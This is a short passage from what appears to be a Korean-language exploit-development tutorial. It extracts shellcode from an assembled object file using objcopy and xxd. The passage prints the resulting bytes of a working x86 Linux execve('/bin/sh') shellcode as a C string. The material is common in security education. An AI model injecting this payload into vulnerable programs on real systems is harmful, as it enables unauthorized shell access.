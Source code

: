 
위에서 만든 .o 파일을 이용하여 셸코드를 추출합니다.


```bash
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....
$ 
execve /bin/sh shellcode: 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```
